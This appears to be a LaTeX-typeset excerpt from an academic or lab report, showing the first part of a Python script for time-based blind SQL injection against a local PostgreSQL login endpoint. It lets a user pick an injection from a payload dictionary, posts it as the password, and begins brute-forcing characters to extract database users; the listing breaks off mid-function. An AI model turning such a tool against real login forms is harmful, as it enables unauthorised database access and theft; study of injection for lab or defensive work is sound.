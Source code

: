 \documentclass[a4paper,12pt]{article}
\begin{document}
\subsubsection{Código del Script}
\begin{lstlisting}[language=Python]
    from yaspin import yaspin
    import time
    import requests
    import string
    import signal
    from termcolor import colored
    import dic_inyecciones_time as dic
    
    # controlar CTRL+C
    def signal_handler(sig, frame):
        print('\nYou pressed Ctrl+C!')
        exit(0)
    
    
    signal.signal(signal.SIGINT, signal_handler)
    
    
    def llamada_api(inyeccion):
        data = {
            "username": 'user1',
            "password": inyeccion
        }
    
        response = requests.post("http://127.0.0.1:5000/login/postgres/time_based", json=data)
    
        return response
    
    
    def menu_inyecciones():
        print(colored("[+] Elige una inyección introduciendo su numero:", "red"))
        lista_inyecciones = list(dic.diccionario_inyecciones.keys())
        while True:
            for i, iny in enumerate(lista_inyecciones):
                print(colored(f"{i + 1}", "magenta") + f":{iny.title()}")
    
            inyeccion = input("Inyección: ")
            try:
                if int(inyeccion) - 1 < len(lista_inyecciones):
                    return dic.diccionario_inyecciones[lista_inyecciones[int(inyeccion) - 1]]
                else:
                    raise Exception
            except Exception:
                print(colored("[!] Introduce un numero valido", "red"))
    
    
    def main():
        # Configurar el total de pasos
        total_steps = 100
    
        # Inicializar la palabra a adivinar
        palabra = ""
    
        # Menu de inyecciones
        inyeccion = menu_inyecciones()
    
        # Crear un spinner con el texto inicial
        with yaspin(text="Extrayendo usuarios de la BD: ", color="red") as spinner:
    
            # Obtener todas las letras (mayúsculas y minúsculas) y dígitos
            conjunto_car = list(string.ascii_letters + string.digits)
    

\end{lstlisting}
\end{document}
